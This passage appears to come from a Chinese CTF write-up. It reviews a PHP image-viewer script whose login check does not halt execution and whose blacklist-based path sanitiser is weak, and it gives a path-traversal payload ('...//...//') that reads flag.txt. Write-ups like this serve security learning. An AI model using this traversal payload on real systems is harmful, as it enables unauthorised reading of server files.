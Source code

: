 接下来再看另一个文件：

```php
<?php
    session_start();

    if ($_SESSION["admin_status"] != "true") {
        header("Location: index.php?msg=login_first");
    }

    function sanitizeImagePath($imagePath) {
        $blacklist = array("./", "\\");

        $sanitizedPath = str_replace($blacklist, "", $imagePath);

        if (strpos($sanitizedPath, "images/") !== 0) {
            $sanitizedPath = "assets/img/" . $sanitizedPath;
        } else {
            echo "Invalid path";
        }

        return $sanitizedPath;
    }

    function displayImage($imagePath) {
        header("Content-Type: image/jpeg");
        readfile($imagePath);
    }

    if (isset($_GET['image'])) {
        $imagePath = $_GET['image'];
        $sanitizedImagePath = sanitizeImagePath($imagePath);
        displayImage($sanitizedImagePath);
    } else {
        echo "Image parameter not provided.";
    }
?>

```
无非多套了个娃，$_SESSION["admin_status"] = "true" 后这部分直接秒。

payload:

```php
/viewer.php?image=...//...//...//...//...//...//...//...//flag.txt
```
flag:

![在这里插入图片描述](https://img-blog.csdnimg.cn/28434f83ba0b4a859ea451f15fd1e444.png)
## Calculator

![在这里插入图片描述](https://img-blog.csdnimg.cn/61a558d15a844c13840dcc328b7524f3.png)
